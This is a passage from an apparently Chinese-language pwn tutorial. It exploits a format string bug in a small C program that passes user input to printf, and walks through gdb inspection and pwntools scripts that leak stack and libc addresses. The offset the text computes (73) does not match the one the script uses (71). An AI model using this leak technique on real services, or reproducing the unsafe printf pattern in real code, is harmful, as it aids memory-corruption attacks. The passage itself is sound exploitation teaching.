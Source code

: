 ```c title="fsb-stack.c"
        memset(buffer, 0, BUFLEN);
        fgets(buffer, BUFLEN, stdin);
        printf(buffer);
    }

    return 0;
}
```

先运行一下这个程序，我们可以发现这样的格式化字符串确实会泄露一些栈上的数据
![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/img/20241216193509.png)


使用gdb把断点下在`printf`函数上，然后运行程序

```shell
b printf
stack 80 # pwndbg
telescope -l 80 # gdb
```

![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/img/20241216194547.png)

可以看到，栈上有很多我们感兴趣的地址

比如说我们想把main函数的地址泄露出来，可以通过`%number$p`来泄露

那么这个number，相当于目标地址相对于`printf`函数的偏移，如何计算呢？

5(有五个参数存在寄存器上) + 0x220/8 = 73

```python title="泄露栈上的数据"
from pwn import *
context(arch='x86_64',log_level='debug')
elf = ELF("./fsb-stack")
script = \
        '''
            b printf 
            c
        '''
p = gdb.debug("./fsb-stack",gdbscript = script) # 断点在printf,且自动打开gdb调试

fmt = "%71$p"
p.sendline(fmt)
leak = int(p.recvline(),16)
log.success(hex(leak))
p.interactive()
```

![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/img/20241216195212.png)


如果我还想泄露libc的地址



```python
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

fmt = "%71$p"
p.sendline(fmt)
leak = int(p.recvline(),16)  # 接收到的数据是16进制的，需要转换为int，这里是__libc_start_main的真实地址

offset = 171368 # 看下边注释,需要手动计算
libc.address = leak - offset 
print("leak_start_main=",(hex(leak)))
print("libc = ",hex(libc.address))
```
